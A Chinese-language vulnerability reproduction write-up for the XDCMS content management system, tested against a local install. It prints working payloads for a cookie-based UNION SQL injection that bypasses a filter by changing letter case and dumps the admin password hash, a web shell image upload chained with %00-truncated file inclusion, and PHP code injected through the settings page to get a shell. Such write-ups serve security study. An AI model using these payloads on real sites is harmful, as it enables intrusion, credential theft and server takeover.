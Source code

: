 ```yaml
---
title:  XDCMS漏洞复现
---
```




# 一、后台SQL注入点

> #### 注册登录后修改信息的地方存在SQL注入
>
> #### 存在大小写绕过

### 1、判断可以获取的参数个数

```
Cookie 输入：
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 
```



![image-20220103142324621](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142324621.png)

### 2、查看当前数据库

> 查看到当前数据库为xdcms

```
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,database() ,15 
```

![image-20220103142524681](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142524681.png)

### 3、查看表

> c_admin

```
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,(seLect table_name From information_schema.tables Where table_schema='xdcms' limit 0,1),15
```

### 4、查看密码

```
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,password,15 From c_admin

破解MD5的密码为teat456
```

![image-20220103142355363](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142355363.png)

![image-20220103125853060](https://tva1.sinaimg.cn/large/008i3skNly1gy0eb0mkqnj30hd03kgln.jpg)

# 二、文件上传文件包含漏洞

### 1、上传一句话木马照片

```
图片地址
http://127.0.0.1/uploadfile/image/20220103/20220103133831_10032.jpg
```

![image-20220103142408824](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142408824.png)

### 2、利用文件包含构造请求（%00截断）

```
http://127.0.0.1/xdcmsv10/api/index.php?c=../../xdcmsv10/uploadfile/image/20220103/20220103133831_10032.jpg%00
```

![image-20220103142417914](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142417914.png)



# 三、后台getshell 利用

> 利用方法/index.php?m=xdcms&c=setting

```
phpinfo');?><?php phpinfo();?>http://127.0.0.1/ 
```

![image-20220103142424373](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142424373.png)

![image-20220103142430746](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142430746.png)



































